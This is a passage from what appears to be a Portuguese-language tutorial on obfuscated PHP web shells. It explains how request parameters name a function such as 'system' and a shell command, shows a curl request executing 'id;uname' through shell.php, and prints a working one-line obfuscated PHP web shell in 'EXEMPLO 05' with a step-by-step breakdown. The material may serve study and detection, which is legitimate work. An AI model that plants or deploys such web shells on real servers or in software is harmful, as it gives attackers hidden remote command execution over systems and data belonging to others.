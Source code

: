 Funcionamento:
1. O atacante envia uma requisição GET com dois parâmetros: 1 e 2.
2. O parâmetro 1 contém o nome da função ou comando a ser executado.
3. O parâmetro 2 contém o argumento para a função ou comando.
4. O código PHP executa a função ou comando com o argumento passado.

Functions:
- ERROR_REPORTING <https://secure.php.net/manual/pt_BR/function.error-reporting.php>
- VARIABLE FUNCTIONS <http://php.net/manual/pt_BR/functions.variable-functions.php>
- ERROR CONTROL @ <https://www.php.net/manual/pt_BR/language.operators.errorcontrol.php>
- EXIT <http://php.net/manual/pt_BR/function.exit.php>
- $_GET <https://www.php.net/manual/pt_BR/reserved.variables.get.php>
  
Variáveis: 

| REQUEST  | VALUE      | NOTA                         |
| -------- | ---------- | ---------------------------- |
| $_GET[1] | `system`   | `nome da function`           |
| $_GET[2] | `id;uname` | `comando que será executado` |

Execução: 
```bash
curl -v 'http://localhost/shell.php?1=system&2=id;uname'
```

---

#### EXEMPLO 05

**Debugar o código:**

Code:
```php
(error_reporting(0)).(extract($_REQUEST, EXTR_PREFIX_ALL))
.($_=@get_defined_vars()['_REQUEST']).(define('_',$_[2])).(($_[1](_))).exit;
```

1. Desativa erros
- `(error_reporting(0))` e `@`: Desativa a exibição de erros PHP.
2. Extrai variáveis da requisição
- `(extract($_REQUEST, EXTR_PREFIX_ALL))`: Extrai todas as variáveis da requisição HTTP e as transforma em variáveis globais, prefixando-as com `_`.
3. Recupera variáveis definidas
- `$_=@get_defined_vars()['_REQUEST']`: Recupera as variáveis definidas na requisição HTTP.
4. Define constante
- `(define('_',$_[2]))`: Define uma constante `_` com o valor da terceira variável da requisição.
5. Executa comando
- `($_[1](_))`: Executa o comando armazenado na segunda variável da requisição, passando a constante `_` como argumento.
6. Encerra execução
- `exit`: Encerra a execução do script.

Funcionamento:
1. O atacante envia uma requisição HTTP com 2 parâmetros.
2. O primeiro parâmetro é o nome da função ou comando a ser executado.
3. O segundo parâmetro é o comando a ser executado.
4. O código PHP executa o comando com o argumento passado.
